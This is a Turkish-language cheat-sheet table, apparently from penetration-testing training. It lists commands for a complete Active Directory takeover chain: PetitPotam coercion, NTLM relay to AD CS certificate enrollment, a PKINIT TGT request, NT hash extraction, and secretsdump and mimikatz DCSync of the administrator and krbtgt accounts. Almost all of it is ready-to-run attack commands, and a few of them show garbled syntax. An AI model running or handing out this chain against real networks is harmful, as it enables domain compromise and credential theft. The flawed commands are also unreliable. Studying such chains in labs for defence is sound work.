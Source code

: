 | Komut | Açıklama | Kullanıcı | Hedef | Notlar |
| --- | --- | --- | --- | --- |
| `git clone https://github.com/topotam/PetitPotam.git` | PetitPotam exploit kodunu indirim | Linux Saldırı Makinası | - | Git kullanılarak yapılır. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | PetitPotam exploit kodunu çalıştırın | Linux Saldırı Makinası | Hedef (Domain Controller) | Saldırı Makinasının IP Adresi Belirtilir. |
| `sudo ntlmrelayx.py -debug -smb2support --target http://target-domain.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | NTLM relay oluşturmak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Hedef (CA Sunucu) | Sunucu sertifika kayıt URL'i belirtilir. |
| `python3 /opt/PKINITtools/gettgtpkinit.py target-domain.LOCAL/TARGET-DC01\$ -pfx-base64 <base64 certificate> = dc01.ccache` | TGT bileti almak için Impacket aracını çalıştırın | Linux Saldırı Makinası | Domain Controller | Base64 sertifika ve ccache dosyası oluşturulur. |
| `klist` | Ccache dosyasının içeriğini görüntüle | Linux Kullanıcı | - | Kerberos bilet bilgilerini gösterir. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 target-domain/TARGET-DC01$` | NTLM hash değerleri almak | Linux Saldırı Makinası | Domain Controller | TGS istekleri gönderilir ve hash değerleri alınır. |
| `secretsdump.py -just-dc-user target-domain/administrator -k -no-pass "TARGET-DC01$"@TARGET-DC01.target-domain.local` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve TGT bileti kullanılır. |
| `secretsdump.py -just-dc-user target-domain/administrator "TARGET-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | NTLM hash değerlerini NTDS.dit dosyasından çıkarmak | Linux Saldırı Makinası | Domain Controller | DCSync saldırısı ve yakalanan hash değeri kullanılır. |
| `.\Rubeus.exe asktgt /user:TARGET-DC01$ /<base64 certificate>=/ptt` | Pass-the-ticket saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Makine hesabı kullanılarak TGT bileti alınır. |
| `mimikatz # lsadump::dcsync /user:target-domain\krbtgt` | DCSync saldırısı yapmak | Windows Saldırı Makinası | Domain Controller | Mimikatz kullanılarak DCSync saldırısı yapılır. |
